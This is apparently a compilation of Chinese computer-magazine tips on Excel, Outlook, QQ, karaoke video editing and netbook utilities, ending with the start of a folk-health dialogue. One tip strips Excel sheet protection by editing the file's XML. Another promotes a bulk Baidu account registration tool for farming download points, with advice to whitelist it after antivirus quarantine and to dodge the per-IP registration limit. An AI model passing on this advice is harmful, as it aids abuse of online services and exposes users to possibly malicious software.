用Excel 2003及其以前的版本制作的电子表格(扩展名为xls), 如果忘记了工作表保护密码, 可以借助网上下载的破解软件(如Advanced Office Password Recovery)进行解密, 而到了Excel 2007后, 原有的破解软件已不再有效, 这时工作表的内容和格式将不能复制和修改, 也无法撤销对工作表的保护。鉴于Office 2010的文档类型是基于XML的, 所有的docx、xlsx、pptx等都是标准的zip文件。经过反复摸索, 我找到不借助任何专用破解工具, 仅用WinRAR就能解除Excel 2010工作表密码保护的办法。

1.  鼠标右键单击设置了工作表密码保护的电子表格(本例为: 工作表已锁定.xlsx), 选择“打开方式”→选择程序。

小提示：

如果是用Excel 2000或Excel 2003创建的电子表格(扩展名为xls)文件, 请先使用Excel 2010打开该电子表格文件后, 另存为高版本的电子表格(扩展名为xlsx), 再依次按以下步骤操作

2.  在弹出的“打开方式”对话框中, 从“程序”列表中选择“WinRAR archiver”, 点击“确定”。
3.  用Excel 2010制作的扩展名为xlsx的电子表格即可用WinRAR打开(不可思议), 在WinRAR压缩包目录中依次点击进入“xl→worksheets”文件夹, 该文件夹中保存着默认的三个工作表, 依次对应sheet1.xml、sheet2.xml和sheet3.xml。
4.  在WinRAR菜单中, 单击“选项→设置”, 选择“查看器”选项卡, 在“查看器类型”中勾选“外部查看器”, 将“外部查看器名称”指向记事本路径, 也可单击“浏览”选择(本例为C:\WINDOWS\system32\notepad.exe), 这样, 查看xml文件的默认程序更改为记事本, 双击扩展名为xml的文件就能直接用记事本打开了。

小提示：

首次使用进行设置后, 以后在本机上使用可跳过此步, 不需要再进行设置

5.  在压缩包中找到受密码保护的工作表对应的文件名, 如“Sheet1.xml”, 双击该文件名, 系统自动用记事本打开该文件, 使用Ctrl+F找到“SheetProtection”字段, 将“<sheetProtection password=*********>”中整个字段所有内容删除, 具体位置以此字段结束的尖括号为界。删除内容会因保护工作表密码不同和锁定单元格项目不同而有所不同。
6.  退出记事本时, 系统弹出记事本对话框提示是否保存, 选择“是”, 退出记事本后, WinRAR会弹出“查看”对话框, 提示文件“sheet1.xml”已经被修改, 是否在压缩文件中更新它, 选择“是”。
7.  退出WinRAR, 设置了密码保护的工作表其保护功能即已解除, 这时您就可以任意调整其格式, 输入或修改单元格内容了。

(文/郭萍)

## 经典家庭版的卡拉永远OK

生活中我们都有许多经典的回忆，会用视频或相片的方式记录下来。不过若老是用平常的方式翻看的话，慢慢地会失去新鲜感。如果换一种方式，比如选择其中的精彩画面，做成家庭版本的卡拉OK，在唱歌的同时欣赏着以前拍摄的画面，那该是多么温馨和惬意呀！

小王是我不错的朋友，学校搞活动时我会经常“假公济私”顺便给他的孩子录像和照相，并拷贝给他。可这个小子从不知足，老是给我提出“过分”的要求，这不，今天又要我把他孩子的演出录像做成卡拉OK歌曲，说是让他孩子重温儿时回忆的同时，还可以顺便提高歌唱水平。为了早日不受他的“纠缠”，我就用《每当我走过老师窗前》这首歌，手把手教他制作一个傻瓜版的卡拉OK吧。学会以后就可以自己做了。

### 一、做个傻瓜版的卡拉OK

这个傻瓜版的制作，确实是再简单不过了，只需在会声会影中插入两个视频文件即可。

- ①先找到“每当我走过老师窗前”这首歌的原版视频，存放到电脑中。然后启动会声会影软件，进入影片编辑，在覆叠轨#1上插入该原版视频，调整好合适的大小。
- ②为什么不把原版视频放入主轨道呢，原因就是只有在覆叠轨中的视频才可以进行任意大小的缩放和位置移动。我们这里要做到的效果是把原版视频中的歌词放到屏幕的最下边，尽量不露出多余的原版视频画面。
- ③把要用到的演出视频拖动到覆叠轨#2上，进行视频大小的调整，正好能覆盖住原版视频，只留出歌词。然后再进行视频片段的截取，使时间和原版视频相同。最后在片头加上字幕即可。
- ④要把这个轨道上的演出视频的声音取消，进行静音设置，否则的话，两个视频的声音会同时出现。好了，可以试看一下，然后导出需要的视频格式就行了。

### 小提示：

会声会影的初始界面只有一个主视频轨道和一个覆叠轨，如果我们想要进行多轨编辑，就需要在轨道管理器中添加需要的轨道，最多可以有6个覆叠轨，我这里根据实际情况只用了两个覆叠轨就够了。

### 二、做个滚动字幕版的OK也不费事

教会小王制作傻瓜版的卡拉OK歌曲，把他打发走后本以为已经把他“摆平”，没想到不到半小时他又回来了，带着一脸“坏”笑，居然“厚着脸皮”让我再给他做一个精致点的。他的孩子说傻瓜版的那个卡拉OK看着不是那么舒服。原来，傻瓜版的OK只是遮盖住了原版的画面，但是原版字幕两边的运动画面还是会露出来，会产生一点小干扰。

#### 1. 巧做同步字幕

我们可以把歌词保存到一个文本文件中，然后在制作的时候随时复制粘贴使用。

- ①还是把原版视频放到覆叠轨#1中，大小就无所谓了，反正是要全部覆盖的。进行预览，到第一句歌词的时候停止，然后在字幕轨道1中插入第一句歌词，调整歌词的时间长短与原版一致。
- ②字幕尽量用浅颜色的，而且不要设置动画方式，把所有歌词都按照这种方法进行制作。

#### 2. 巧做字幕滚动效果

把字幕轨道1中的字幕文件全部选中，复制粘贴到窗口右边的标题列表中，然后在字幕轨道2中把这些字幕加入。这样两个轨道的字幕无论是字体字号还是时间都是一致的。

- ①对字幕轨道2中的文字进行设置，改变文字的颜色，尽量用深颜色的，比如蓝、红等颜色。选择“应用动画”选项，选择“淡化”，然后预览一下，看看是否是我们所需要的效果。
- ②字幕工作完成了，就需要把演出视频添加到覆叠轨#2上了，把这个视频先进行静音处理，然后拖动大小，直到完全覆盖轨道1上的原版视频。
- ③原创歌曲的制作也基本相同，可以直接把原创视频拖放到主轨道上，省却了覆叠轨操作。

### 小提示：

如果你觉得一句一句地进行歌词复制粘贴太麻烦的话，制作字幕还有一个简便的方法，就是到网上下载一个会声会影的批量字幕制作工具，可以一次把所有歌词文件存为一个字幕文件，然后在会声会影中插入再进行具体调整即可。

### 后记：

小王没有就此罢手，又把他结婚十周年的庆典录像交给我，让我再做两首歌，我只好又如法炮制，从他们结婚的录像中精选片段，做了《知心爱人》《心会跟爱一起走》两首经典对唱情歌，终于彻底把他“摆平”了。临走时他给我撂下一句“狠”话：“今晚6点，清真羊肉馆，不见不散……”

> （文/8511农场学校 刘曙光）

## 轻松调教键鼠 让上网本更顺手

十一长假小妹回家时给我带了一款上网本，用起来感觉很不错，可是用了没两天发现了一些不太适应的地方。上网本的键盘和无线键盘一样为了节省空间和电力，将键盘大小写状态、小键盘锁定状态等指示灯给省去了，很多时候为了查看键盘当前状态，不得不试验几次，极为不便。另外使用触摸板指针移动速度刚刚好时，插上外接鼠标后，却发现指针移动速度太快，不好控制，只好又设置一番。到使用触摸板时却又太慢，又得进行设置，着实麻烦。小妹为我找来了“美丽人生无线键盘指示灯”和“AutoSensitivity”两款绿色小工具，才为我解决了难题。

### 上网本也拥有键盘状态指示灯

“美丽人生无线键盘指示灯”（http://www.ouyaoxiazai.com/download/y14836.html）运行后，在系统状态栏显示键盘指示灯，只占用一个16×16大小的图标位置，其图标上有三个竖条，代表键盘上的大小写、小键盘和Scroll状态。由于太小不太容易区分，只是在某些场合下才使用。

- ①平时想查看键盘状态时，它是通过屏幕显示图标的方式，提示大小写状态：鼠标滚轮音量控制，小键盘锁定状态，按下相应键如Caps Lock键后，在屏幕上就会用图标显示出大写字母“A”，表示当前处于大写状态，如果显示的是小写“a”则表示处于小写状态。按下Num Lock键（上网本、笔记本一般使用Fn+Num Lock），若图标显示数字“5”则表示数字键盘开启，如果显示方向键则表示数字键盘关闭。使用它后我再也不为切换键盘状态操心了，正常按功能键，屏幕上同步显示切换状态，可轻松查看状态指示。
- ②这款小工具还有更简便查看键盘状态的方法。连续按两次Ctrl键（默认为右Ctrl），可以在屏幕上同时显示三个键的状态，让我们对当前键盘状态一目了然。
- ③为了使用起来更顺手，可在系统托盘软件图标上右击，选择“配置”命令打开配置窗口，勾选“显示位置”中的右下角位置，让提示键盘状态图标显示在屏幕的右下角，再勾选所有的项目，让软件随系统一起启动，状态改变时有声音提示，将简便查看键盘状态快捷键从默认的右Ctrl键换到左Ctrl键，方便操作。
- ④还可以给台式机也使用这款小工具，运行后将鼠标置于任务栏，滚动滚轮就能方便地调整系统音量大小，而且屏幕上会同步显示音量大小。定义Scroll Lock键作为系统声音开关，同样也会在屏幕上同步显示其状态。这样台式机键盘也拥有了音量调节按键，成了“多媒体键盘”。

### 让鼠标和触摸板无缝切换

鼠标和触摸板指针移动速度不一致的问题，是由于Windows屏幕指针速度处理并不区分设备，这意味着你的鼠标和触摸板只能共享一个指针速度，只有分别对鼠标和触摸板设定不同的移动速度，才能避免每次插拔重新设置的麻烦。可是Windows系统本身却不能分别对它们进行设置。

运行AutoSensitivity（http://www.ouyaoxiazai.com/soft/yyrj/129/18066.html，需 Microsoft.NET Framework 3.5支持）。在它的界面中可以分别对鼠标和触摸板设置指针速度。

拖动TouchPad和Mouse滑块至适当位置，分别点击其后的Apply按钮，再单击Refresh按钮使设置生效。随后试用鼠标和触摸板，如果指针移动速度不合适，继续设置直到合适为止。

这样设置后鼠标和触摸板的指针速度就分开了，插上鼠标是用鼠标的敏感度设定，拔掉鼠标则是用触摸板的敏感度设定，也就实现了鼠标和触摸板无缝切换，让我们感觉不到它们指针移动速度的差别。

> （文/王彦博）

## 和我聊天哈 我想你

看一下这张截图效果，怎么样，不错吧！下面就允许我说说我们的事……

某年某月某日前我遇见了她，后来我们相恋了。


前段时间她买了笔记本电脑，让我帮她装些常用的软件。在此我要感谢电脑感谢腾讯，大大的减少了我给她打电话所花的电话费。

等我装完大部分软件后，我就按捺不住自己了。想在她电脑上的QQ2011软件上动动手脚，简单地三下五除二动完后，洗洗手就把笔记本给她送去了。晚上我们各自回到宿舍后，她确实和我聊天了，但是说的是：“怎么做到的，教我！”好吧！都下命令了，我只好照办。

“首先找到QQ2011的安装路径，你的在C盘，按路径C:\Program Files\Tencent\QQ\18N\2052找到里面的PreLoadStringBundle文件，右击选择编辑。”

“嗯，打开了，然后呢？”
“用寻找功能找到$ _PNAME_VS，然后换成我真棒！”
“唉，真自恋啊你！”
“弄好了没？”
“嗯，弄好了，然后就可以了吧。”
“You are very very clever! 保存好后，关掉记事本，然后退出QQ，重新登录就OK了。”
“哈！OK了，不错不错！”

我的小故事讲完了，相信你也会了吧？你也偷偷地做点手脚吧，看看能不能感动一下你的TA……

> （文/朱振显）

## 突破Outlook 2010附件大小限制

前些天帮同事重装了系统并安装了一套最新的Office 2010办公软件，后来同事向我求救，说Outlook 2010发送不了大附件，只要附件大小超过20MB就提示“附件大小超过了允许的范围”。

出现这个问题有两种可能：一是Outlook客户端结合Microsoft Exchange邮件服务器系统，Outlook 2010的附件大小限制对其不起作用，而是邮件系统进行了限制；二是Outlook 2010本身对附件进行了大小限制，则需要修改Outlook客户端。

如果你也碰上这个问题，那么首先就要检查邮箱系统类型。打开Outlook，依次单击“文件→信息→账户设置”，在打开窗口的“电子邮件”选项卡上查看当前所有账户的账户类型。如果当前使用的账户类型为Microsoft Exchange，你需要联络系统管理员来更改相关设置。

如果发现收发邮件的服务器不是Microsoft Exchange系统，而是POP3或IMAP类型的邮件系统，那么你可以用以下两种方法解决问题。

**方法一**：用浏览器输入 http://go.microsoft.com/?linkid=9745187，下载一个名为“Microsoft Fix it 50510”的程序下载到本地，运行该程序即可解决Outlook的附件限制。

**方法二**：打开记事本，输入以下内容并另存为一个REG文件，然后将文件合并到注册表中，即可让Outlook 2010附件没有大小限制。

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Outlook\Preferences]
"MaximumAttachmentSize"=dword:00000000
```

（文/骆日）

## 无需辛苦赚积分 文库原汁原味下

近来准备一份论文，从网上搜索资料，发现对自己有用的大多都在百度文库上，可是下载它们，需要百度文库的积分才行。试用了免积分下载百度文库文件的软件，但是很多下载的只是PDF文档和不很全的TXT文档，用起来很不方便。要想得到原汁原味的可编辑的文档，最好是使用积分下载，可是自己太懒，不经常上传文档，没有可用积分呀。

虽然每新注册一个百度账号，就会自动送十分的文库财富，如果下载的文件需小于10点以下的积分，再重新注册一个账号即可。可是按常规注册一个百度账号操作麻烦，而且如果想下载好多文档，那就需要注册多个账号，这就更麻烦了。最后找到了“小首百度贴吧注册机”这款百度账号快速申请小工具，只要简单地输入一下验证码，就可以注册一个具有10点积分的百度账号，而且可以连续注册多个，十分方便。下载地址：http://www.zw97.com/soft/11583.html

- ①运行“小首百度贴吧注册机”单文件绿色版程序，它会随机自动生成百度账号ID和密码，自动生成的不好记忆，虽然自动生成百度账号ID我们不能控制，但密码可以自己设定，不让程序随机生成。在开始注册之前，选中“密码”框中原有字符将其删除，输入自己想要的密码，让本次所有注册成功的百度账号ID都使用该密码，方便自己记忆，随后点击下方的“显示注册信息”按钮，展开显示已注册成功的百度账号ID和密码窗格。

> **小提示**：
运行该工具时被杀软当成病毒删除并隔离起来，其实它并不是病毒，如果被杀软隔离删除了，可从隔离区恢复该文件，并将其添加到白名单中，这样就可正常运行了

- ②点击“注册开始”，这时在验证码框中会显示出验证码图片，同时左侧有操作提示，在“请输入验证码”栏输入该验证码，如果该百度账号ID注册成功，就会在左侧和右侧窗格同时显示出来。这时会自动生成下一个百度账号ID，验证码框中生成下一个验证码，等待输入，输入正确后又会得到一个百度账号ID，所有注册成功的百度账号ID在右侧窗格以“百度ID:密码”的形式列表显示（百度账号ID包括汉字和数字两部分，百度账号ID和密码间使用冒号分隔，所有ID密码一致，都是开始注册前设定的那个）。

- ③这样就可随时注册到多个拥有10点文库积分的百度账号了。注册若干个百度ID后，从右侧窗格中复制保存，或点击“导出账号”，将所有注册成功的百度ID和密码导出到文本文件中保存，以备随时使用。

- ④需要下载百度文库中的文件时，使用这些百度账号ID登录，就能原汁原味下载需要积分小于10点的百度文库文档了。当一个百度账号ID积分用完后，再使用下一个登录继续下载，这样下载的文件方便我们编辑整理。

> **小提示**：
注册时输入验证码的最佳时机较难把握，最好是在左侧出现“等待延时”提示时，快速输入当前的验证码，即可注册成功。
如果提示“注册失败，此IP注册上限已到”时，关闭后重新启动继续操作又能注册了。
这种方法适合应急时使用，可不能长期这样做哦。网络就是人人为我，我为人人，网络资源需要大家都来共享才能更丰富，所以希望大家平时能通过上传自己的文件等方式来赚取积分，这样不但丰富了网络资源，也方便自己有足够的积分下载百度文库中的文件！

（文/青山漫步）

## 文件下载到网盘 随用随取真方便

平时在网上遇到好的资源，下载到电脑中那是习惯动作，别扭的是，如果使用的是别人的电脑，还得用U盘或其它方式把资源转移到自己的电脑上。既然现在的网盘已经非常普及，那么我们何不把网络资源直接下载到网盘里保存，在需要的时候随时提取呢？

Cloud Save这款Chrome插件就能做到这点。想使用该功能的朋友，可以先登录到 https://chrome.google.com/webstore/detail/omiekjeapoombhiemenfoccbdbeagdah 网页，单击右上方的“添加至Chrome”按钮，在弹出的对话框中单击“安装”，把该插件安装到Chrome浏览器中。

- ①安装完后，该插件就在Chrome浏览器的右键菜单中添加上了一个Cloud Save选项，以后想把网页中的软件、图片、歌曲等资源下载到网盘时，首先在下载链接上右击鼠标，在弹出的菜单中指向Cloud Save选项，选择一个网盘名称，比如SkyDrive，即会弹出下载进度窗口，把你选定的文件下载到指定的网盘里（初次下载会打开网盘登录页面要求登录），Save As选项则允许把文件更名后再下载到网盘。

- ②以后使用网盘里的文件时，只需在任何一台电脑上登录网盘，然后把文件下载到本地电脑就可以了。

> **小提示**：
Cloud Save目前支持的网盘全为国外产品，包括Google Docs、Box.net、Dropbox、Amazon Cloud Drive、Windows Live SkyDrive、SugarSync、Facebook、Picasa、Flickr、Min.us等，大家可以按需要选用。其中的Min.us比较另类，同时也非常值得关注，它无需注册便可使用，但要注意的是，保存到Min.us中的文件，一定要在下载完后单击进度条窗口，在打开的网页中，把文件的链接地址记录下来，以便日后使用。

（文/孙敏）

## QQ隐藏无法完全弹出 原是显卡驱动惹的祸

我的工作电脑是ThinkPad x60，安装了Windows 7旗舰版之后，在使用QQ时总是碰到这样一个问题：只要开启QQ的“停靠在桌面边缘时自动隐藏”这个功能，当QQ面板自动隐藏后，我把鼠标移动到QQ隐藏的边界处，QQ面板不能自动弹出全部面板，而只是弹出一部分，要想全部显示就得拿着鼠标向隐藏处多移动几次或者用热键将其呼出，使用很不方便，也很烦人。

公司里其他同事也碰上了类似的问题，不过大家的电脑都是ThinkPad电脑，看来这与Windows 7系统无关，后来研究发现这是由于开启了ThinkPad显卡驱动的自动滚屏功能后与QQ自动隐藏功能起冲突造成的。其他类似这种具有自动隐藏到屏幕边缘的软件也有类似的情况。解决这个问题的方法如下：

在桌面点右键选择“屏幕分辨率”，然后点击“高级设置”，在弹出的窗口中切换到“屏幕显示”标签，取消勾选“启用自动滚屏”后点击“确定”即可。

（文/骆日）

## Chrome帮你找正版音乐添入QQ空间

QQ空间嘛中国人都知道，添加背景音乐嘛看CFan的都知道，正版音乐嘛不是要钱的吗？想空间变炫的“童鞋”就认真听喽，真的是免费的正版哦。

我们就以Lady Gaga的Just Dance为例吧（要用Chrome哦）。打开巨鲸音乐网 http://www.top100.cn （Google音乐搜索的提供商，质量和数量绝对可靠），查找“Just dance”这首歌，点击第一首歌曲右边的下载按钮，在新弹出的选项卡点击下载，这时Chrome会自动下载。

见证奇迹的时候到了。点击Chrome右上角的小扳手，再点击下载内容（快捷键Ctrl+J），先暂停下载，再右键点击复制链接地址（复制到的是 http://file4.top100.cn/201110021435/EFBEC64FD805D34794FFB2FC9D1A1E34/Special_103922/Just%20Dance%20%5Bft.%20Colby%20O%5D%20Donis%20D.mp3 ），打开QQ空间→音乐盒→音乐库→添加网络音乐（右下角），将地址粘贴到歌曲链接处，填写歌曲名和歌手名，点击“添加”，然后设置成背景音乐就可以了。速度超快，绝对能达到绿钻的音乐速度，连通率达到51%……

（文/彭家进）

## 文档页面纵横混排 特殊页码也轻松加

单位组织运动会，我要在Word 2003中制作并打印活动安排小册子。文档中页面既有横向又有纵向排列的，要求纵向页面页码标在下方，横向页面标在左侧，并要求页码竖排，页码格式要一致，最后左装订成册。

试验发现页面的纵横设置都很简单，添加页码也很简单，可是不论如何移动页码位置，这些纵横页面的页码都是关联在一起的，总显示在纵横页面的同一位置，无法实现纵横页面页码显示在不同位置的要求。经过多次摸索才终于实现，再也无需费时费力地将文档分到多个文档中进行设置。

设计好封面和纵向页面，将光标定位到需要横排版的页面，在“页面设置”对话框中，选择好纸张方向为“横向”，再选择“应用于插入点之后”，将这些页面方向更改为横向。

- ①光标定位到横排版的第一页的页脚上，这时会出现一个“与上一节相同”的提示。在出现的“页眉和页脚”工具栏中，取消“链接到前一个”项的选择，“与上一节相同”字样提示消失。这样操作后就取消了前一节和后一节页脚间的关联关系，可以各自自由地进行页码设置了。
- ②先按常规方式给前面的封面和纵向页面设置好页码，再将光标定位到横向页面的第一页的页脚上，选择“绘图”工具栏上的“竖排文本框”，在页脚上拖出一个合适大小的竖排文本框，定位光标到其中，使用“页眉和页脚”工具栏中的按钮为其插入页码，并设置页码编排续前节或者自定义起始页码，使其格式与前面的纵向页面一致。
- ③将该文本框移动到横向页面左侧的合适位置，前一节的页码并没有跟着移动，本节所有横向页面页码已添加到了左侧。再将文本框的边框设置为无，这样就实现了不同纸张方向的页码不同位置标注。

> **小提示：**
这一方法同样适合Word 2007和2010版本哦！
有了这一方法，无论一个文档中有多少个纵向横向页面，它们的页码设置起来都方便多了，再也无需将一个文档拆分成多个文档来分别设置页码。

（文/王彦博）

## U盘盘符不显示的应对方法

新笔记本电脑是XP系统，插入U盘后，在窗口右下角出现新硬件的图标，金山毒霸提示U盘可以使用，但在“我的电脑”中却没有显示U盘的图标。换了插口后仍然没有显示U盘盘符（U盘在别的电脑是可以打开的）。

因为U盘在其他电脑中可以打开，而且电脑是刚买的，系统也是新装的，也没有问题，怀疑与系统设置有关。于是插入U盘后，右击“我的电脑”选择“管理→磁盘管理→磁盘1”，发现U盘在这里，右击打开，数据全部都在，U盘可以使用了。

在“磁盘管理”界面里，右则的“CD-ROM 0”与“磁盘1”的盘符是不连续的。“CD-ROM 0”的盘符是“H:”，而“磁盘1”的盘符是“K:”。在“清华同方（K:）”处右击，选择“更改驱动器名和盘符”，单击“更改”，在“指派以下驱动器号”中选择“CD-ROM 0”中最后一个盘符字母的下一个字母作为“磁盘0”的盘符。“CD-ROM 0”中最后的一个盘符是“H”，所以选“I”作为U盘的盘符，单击“确定”，退出U盘。再次插入U盘，打开“我的电脑”，U盘图标终于出现了。

> **小提示**：
XP系统在分配磁盘盘符是按连续方式的，如果人为改变了磁盘的盘符，可能就在“我的电脑”中不显示。我们通过改变系统服务就可以解决，依次单击“开始→设置→控制面板”，找到“管理工具”，打开“服务”，在“名称”中找到“Shell Hardware Detection”项目，双击打开后，把“启动类型”的“已禁用”改为“启动”，确定后重新启动系统，问题彻底解决。

（文/王昌红）

## 长网址变短 微博来帮你

本人是一名计算机教师，常常给电脑杂志投稿（例如CFan^_^），不过写作中要经常提供一些电脑软件的下载链接，很长很长，比如微软的软件资源的下载地址就非常长，有占版面骗稿费的嫌疑不说，而且读者得对着书本输入字母，一不留神就可能出错，极不方便，咋办呢？

当然，把长网址变短，网上有很多类似的服务，不过每次都得去这样的网站其实不是很方便。还好，我是一个微博狂，微博可以把很长的网址变短。只要你把想要变短的长网址（相信很少有网址超过140个字符的吧）作为一条微博发出去，然后系统就会自动生成一个长期有效的短网址了！例如 http://url.cn/3vytK8，这就是Windows 8开发者版安装文件的下载链接，和官方原始链接相比是不是足够短？

（文/骆日）

## 服务器当机 缓存里找备份

大家都碰到过服务器当机，网站无法访问的情况。其实网站内容并不都保存在服务器上，还有部分内容分布保存在各地的缓存服务器中，如果事情紧急，不妨用Google Chrome浏览器的“访问缓存副本”功能。

用Chrome打开网页域名，当然因为服务器当机，我们是无法正常访问的，但是在Chrome报错页面中有“访问缓存副本”链接，点击此链接，即可访问域名缓存了。

（文/叶勇）

## e时代购物分享有回报

很多朋友网上购物都知道使用返利网站网购得到返现。如果你身边的网购朋友多的话，还可以通过邀请好友使用而得到返现。

以财猫省钱浏览器为例，下载安装并注册会员，给该账号捆绑个支付宝账号（返现的钱汇到该账号下），你只要点击财猫浏览器的首页菜单右侧的“邀请好友返10元”，进入“用户中心”页面，点击该页面的“复制推广内容”按钮，通过MSN、QQ、Email、微博等方式把链接推荐给好友，每邀请一位朋友成功注册并累计购物超过20元，就可以获得10元的现金奖励。

点击“用户中心”页面下的“我的返现”，点击右侧的“立即提现”按钮去申请提现，提现金额是10的倍数。再点击“立即提现”，在48小时内财猫工作人员会把钱汇到你捆绑的支付宝上。

（文/下屿中学 行云流水）

## 你要捆绑安装 我要绿色服务

网上下载的软件安装包，最怕的就是在其中捆绑了大量的流氓软件或者病毒文件，它们会在安装时悄悄地进入系统，修改系统配置。如果能像WinRAR那样把安装包的文件解压出来，提取有用文件甚至不用安装即可运行，那该有多好呀。

Universal Extractor就是这样一款帮你实现绿色服务的小软件（下载地址：http://legroom.net/software/uniextract）。在安装过程中选择“国际化多语言支持文件”，“默认语言项”选择“Chinese (Simplified)”。这款“万能文件提取器”能彻底解决流氓软件的骚扰问题和本应绿色运行而却要搭配安装的问题。

以“美图秀秀”的安装包为例，选中“美图秀秀”安装包，右键选择“用UniExtract提取文件”，确定后会在桌面生成“XiuXiu_sina_Soft”文件夹，运行其中的“xiuxiu.exe”。比正常安装后的界面图少了大量的装饰性元素，但丝毫不影响其使用。更重要的是解决了“美图秀秀”在安装过程中捆绑安装“PPTV网络电视”的弊病。

（文/段晓东）

## 无网也能查询 宽带连接错误

朋友们的电脑无法上网，常让我帮忙处理，使用宽带上网的经常会出现691、678之类的错误提示，可近几次都遇到较少见的错误提示。

由于无法连接网络，无法通过百度或谷歌来查询出错原因。

为了方便自己在无网络的情况下查询宽带连接错误的原因，我从 http://www.cr173.com/soft/19605.html 下载回来宽带连接错误代码查询绿色工具，解压后双击netcfg.hlp打开“网络连接”窗口，其中列出了宽带连接“出错信息”，并从小到大排列，方便查询。找到相应代码后，点击即可弹出其详细的信息，根据这些信息即可方便地处理了。

（文/王彦博）

## 查询快递 只需发条微博

网购的朋友越来越多，查询快递一般不是打开浏览器就是用一些工具来查询，这些方式操作起来较麻烦，如果你每天都登录QQ和发布微博，那查询快递就简单多了，只需发一条微博即可完成。

这一功能支持任何方式的快递状态的查询。在使用前先打开查快递官方微博 http://t.qq.com/ckuaidi，将查快递设置为“收听”。需要查询任意快递情况时，在QQ面板切换到微博面板下，只需发布“快递单号@ckuaidi”的广播，很快就可以在主页面中看到该快递状态了，也可以点击“提到我的”按钮，切换到其下，随后查看该次查询的快递状态。

这种方法比较适合在多种平台下查询快递状态，可随时随地使用手机进行操作哦！

（文/青山绿水）

## 大道至简 做到就是养生（一）

盼盼最近可郁闷了。一张体检单，居然查出她有“三高”！加上脸色晦暗，还有蝴蝶斑，眼睛干涩怕光，还经常胃痛，有时还肝痛。她觉得，自己简直是加速步入老年人的行列了。

“不行！得为自己的健康做点什么了，向谁请教好呢？”她想到了好姐妹——苏苏。

这位苏苏女士可不简单。很会保养，头发乌黑润泽，脸色红润，快四十岁的人，看起来就像二十多岁。她是个中医迷，常把《黄帝内经》挂在嘴边，也酷爱国学，曾经《孝经》卷不离手，最近听说又学起《弟子规》来。

**对！就向她取经！**

盼盼找到苏苏，刚把问题说完，苏苏就说：“《弟子规》说‘身有伤，贻亲忧’。你不好好爱惜自己，把身体搞坏了，让父母操心，这可是大不孝呀！”

“唉呀，我这不是来向您这位养生家请教了吗？”

“好吧，看你心诚，给你开个方子吧，”苏苏写出下面这个“方子”：

- ①饮食
仅吃八分饱
清清淡淡
低脂、低胆固醇，高纤维
营养均衡
尽量吃当地，一定食当季
常吃粗粮
远离深加工产品
- ②良好睡眠
- ③适量运动
- ④良好情绪

盼盼一看，大失所望，这叫什么方子嘛？“这……三岁小孩都晓得！”

谁知苏苏回了句：“可惜，三十大姐做不得！”

盼盼被堵得说不出话来。

“你要知道，大道至简。真正有效的方法，往往并不复杂，也不难操作。俗话说，‘真传一句话，假传万卷书’。”

“现在市面上，养生观点五花八门，真真假假，有效无效，我们也不好分辨。与其做他们的小白鼠，倒不如老老实实，安住在老祖宗几千年来亘古不变，经无数人验证过的养身智慧中。”

盼盼点点头表示赞成。

苏苏继续说：“养生并不复杂，老祖宗已为我们留下了瑰宝，就看我们做不做了。做一分，受用一分，做十分，受用十分。这就是在养生。现在，就让我们来看看，哪些你做到了，哪些没做到，哪些还可以做得更好。”

## 饮食篇之：仅吃八分饱

《素问·痹论》里说：“饮食自倍，肠胃乃伤。”肠胃伤了，吃什么都没用。消化吸收不了嘛。所以，如果我们不想把自己的肠胃弄伤，饮食就要节制。

在日本民间，也流传着一句谚语：“hara hachi bu”，意思是“吃饭只吃八分饱”。

而现代科学人员也发现，吃饭只吃八分饱，是许多长寿者共同的养生秘方。

世界有五大长寿村：冲绳岛、锡米、卡姆波蒂迈莱、罕萨和巴马。那里的人不仅长寿，而且健康。英国著名营养学家、长寿学家莎莉·比尔，花了很长时间，拜访这些地区的长寿老人，研究他们健康长寿的秘诀，最终发现，秘诀之一，就是“仅食所需，食不过量”。

早在16世纪，威尼斯贵族路易期·卡纳罗就在他的书《论有节制的生活》写下自己的经历。他曾经迷恋于美食美酒，直到有一天，他被各种病痛折磨，医生说他只能活几个月了。但是，他一直活到102岁，并且死时没有痛苦。他做了什么呢？他只是简化了自己的饮食，并且大大减少了食物的摄入量。

那么，八分饱是什么概念呢？就是，当你感觉不饿了，但是还能吃，还想吃时，就该打住了。

“这点我做的很不好。”盼盼说，“俗话说‘早餐吃好，中餐吃饱，晚餐吃少’。可是，我晚餐却往往吃得最多，明明很饱了，但看到那么多好吃的菜，就忍不住又吃，结果常常吃到腹胀。可能这就是‘肠胃乃伤’吧，难怪我肠胃不好。”

“这是都市上班族的通病。晚餐吃太饱，除了伤胃，也影响睡眠。其实吃八分，不仅仅针对晚餐。每餐都一样，不能吃得太过。”苏苏说，“我自己的经验，是每次把自己的饭菜单独盛出来，吃完自己那份，就坚决不再吃了。另外，喝汤改在饭前喝，也能产生饱腹感，让你自动减少食量。”

“嗯，而早餐，我通常随便在路边买个馒头包子解决，有时甚至不吃早餐，根本谈不上好。”盼盼继续检讨。

“早餐可不能随便，更不能不吃哦。不吃早餐的话，精神不振，还容易贫血、得胆结石。古人说：‘晨起吃粥，推陈致新，利膈养胃，生津液，令人一日清爽。’所以我早上一般都在家里喝了粥再走。小米粥、白粥、红薯粥、燕麦粥……变着花样喝。清代名医王士雄说‘粥为天下第一补物’。早餐喝粥，我觉得一天都很精神。”

“好像看到希望了。”盼盼有个预感，仅仅走出这一步，自己的身体就会有变化。

### 电脑有话说：

人不能吃太饱，我们电脑何尝不是如此呢？虽然我的肚量有500GB，但是并不意味着可以填满500GB！尤其是系统盘，更不可以百分百填满哦。请留点空间给我吧，不然我的肠胃也会超负荷，事事慢半拍，甚至运转不起来哦。

> （文/沈慧）

## 大道至简 做到就是养生（二）——清淡饮食

上回谈到吃饭要吃八分饱。这回接着谈饮食。
俗话说“多吃咸盐，少活十年”。温家宝总理深明此中道理，他对饭菜的要求很简单：“清清淡淡，汤汤水水，热热乎乎。”“清清淡淡”的意思就是要少油少盐。现在中国高血压病患者那么多，油盐摄入过量就是重要原因之一。

“唉呀，我就是爱吃咸的东西，难怪血压高。”盼盼叫道。

“除了盐、咸菜、味精、龙虾、火腿这些高钠的食品，也要少吃。”苏苏说。

“就是说，蛋类、虾蟹、内脏、红肉之类的，要少吃了？”

“对，而且最好是素食，因为素食更安全。现在江河海污染那么严重，吃鱼也不放心。”

“那植物不也有农药残留吗？”
“没错，但两害相权取其轻。植物的农药残留比动物要低得多。因为很多农药都是脂溶性的。另外，植物起码不用抗生素、镇静剂，植物也不会和动物一样生病、得传染病……有兴趣的话，可以找《向肉食说NO》和《21世纪健康饮食》这两本书看看，书上有详细的科学数据。”

下载地址（图文并茂的哦）：
